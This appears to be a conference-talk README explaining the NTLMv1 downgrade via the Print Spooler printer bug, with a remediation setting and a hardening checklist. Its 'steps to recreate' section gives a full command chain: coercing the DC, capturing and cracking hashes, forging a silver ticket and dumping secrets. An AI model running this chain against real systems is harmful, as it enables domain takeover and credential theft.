

# show bio

`cat evilmog_bio`
    

# Print Spooler challenge/response
```
┌────────┐     Printer Request     ┌────────┐
│        │────────────────────────▶│        │
│        │                         │        │
│        │     Printer Notify      │        │
│        │◀────────────────────────│        │
│Attacker│                         │   DC   │
│        │     NTLM Challenge      │        │
│        │────────────────────────▶│        │
│        │                         │        │
│        │     NTLMv1 Response     │        │
│        │◀────────────────────────│        │
└────────┘                         └────────┘
```

[ntlmv1.txt](ntlmv1.txt)

# LM Compatibility level registry setting
```
cat registry
cat settings
```

* [registry.png](registry.png) - registry settings
* [settings.png](settings.png) - vulnerabile settings
* [settings2.png](settings2.png) - more settings (less vulnerable, use level 5)

Fixed Settings in lm compat level 5

# NTLMv1 response
```
┌────────────────────────────────────────────────┐
│NTLMv1 Response                                 │
│DC1$::MOG:949919F6A782CAF80000000000000000000000│
│0000000000:B70755AC208FDA09326BA2EF4D22EEB08868F│
│E9C1DB5E096:979ba9703d729b97                    │
└────────────────────────────────────────────────┘
```
[v1_response.txt](v1_response.txt)

# LM Response
```
┌────────────────────────────────────────────────┐
│LM RESP:                                        │
│949919F6A782CAF800000000000000000000000000000000│
└────────────────────────────────────────────────┘
```
[lm_resp.txt](lm_resp.txt)

# NT Response
```
┌────────────────────────────────────────────────┐
│NT RESP:                                        │
│B70755AC208FDA09326BA2EF4D22EEB08868FE9C1DB5E096│
└────────────────────────────────────────────────┘
```
[nt_resp.txt](lm_resp.txt)

# client challenge
```
┌────────────────────────────────────────────────┐
│Client Challenge:                               │
│979ba9703d729b97                                │
└────────────────────────────────────────────────┘
```
[client_challenge.txt](client_challenge.txt)

# SSP
```
┌──────────────┬─────────────────────────────────┐
│  NTLMv1 SSP  │                                 │
├──────────────┘                                 │
├──────────────────────────┐ ┌───────────────────┤
│LM RESP:                  │ │Client Challenge:  │
│949919F6A782CAF8          │ │979ba9703d729b97   │
├──────────────────────────┘ └───────────────────┤
├────────────────────────────────────────────────┤
│Combined Challenge:                             │
│949919F6A782CAF8 979ba9703d729b97               │
├────────────────────────────────────────────────┤
├────────────────────────────────────────────────┤
│New Challenge:                                  │
│MD5(Combined Challenge)[0:16]                   │
└────────────────────────────────────────────────┘
```
[ssp.txt](ssp.txt)

# credits
```
┌────────────────────────────────────────────┐
│                                            │
│                 KRBRELAYX                  │
│   Dirk-jan Mollema https://dirkjanm.io/    │
│   https://github.com/dirkjanm/krbrelayx    │
│                                            │
│     MS-RPRN Discovery: Lee Christensen     │
│                 (@_tifkin)                 │
│                                            │
└────────────────────────────────────────────┘
```
[credits.txt](credits.txt)

# NTLMv1 Multi Tool
```
┌────────────────────────────────────────────┐
│                                            │
│                                            │
│                                            │
│             NTLMv1 Multi Tool              │
│  https://github.com/evilmog/ntlmv1-multi   │
│                                            │
│                                            │
│                                            │
└────────────────────────────────────────────┘
```
[multi](multi) - NTLMv1 Multi Tool

# remediation
set lm compatibility level to 5

# ad security checklist
`cat checklist.txt`
[checklist.txt](checklist.txt) - List of things you can do to harden active directory

# steps to recreate
All hashes listed here are from a test system, perform on systems you are legally authorized to test agains
```
1) lookup sid
cd ~/impacket/examples
python3 lookupsid.py Mog/EvilMog@mog.local

2) export sid to variable
export SID="S-1-5-21-1200878168-886626559-2939620051"

3) start responder with
./responder -I eth0 -wrfFP --lm
[can also run without --lm and use hashcat]

4) second window kick off printer bug
cd ~/krbrelayx
python3 printerbug.py MOG/evilmog@dc1.mog.local 192.168.1.128

5) run ntlmv1 multi tool
cd ~/git/ntlmv1-multi
python3 ./ntlmv1.py --ntlm "SERVER1$::MOG:9DE7F41D81C1207400000000000000000000000000000000:DE766A98B60D1C911DCFFFDBB3E521314B2CE34EAB63CC7B:1122334455667788"
python3 ./ntlmv1.py --ntlm "SERVER1$::MOG:FD434CC89967CB4AE99313AC9A0C3AA252A8E011735A15EE:FD434CC89967CB4AE99313AC9A0C3AA252A8E011735A15EE:1122334455667788"

6) crack with crack.sh or hashcat

6a) save results
export NTHASH="c0faa2e8c64eb55cd657db3dfb3dd3c7" # server1
export NTHASH="562090366a39267f07d15f602a12bbd0" # DC1

7) create silver ticket
ticketer.py -nthash $NTHASH -domain-sid $SID -domain mog.local -spn 'HOST/DC1.mog.local' Administrator

8) export
export KRB5CCNAME=/root/impacket/examples/Administrator.ccache

9) secretsdump
python3 secretsdump.py Administrator@dc1.mog.local -k -no-pass
python3 secretsdump.py Administrator@server1.mog.local -k -no-pass
```
[steps.txt](steps.txt)
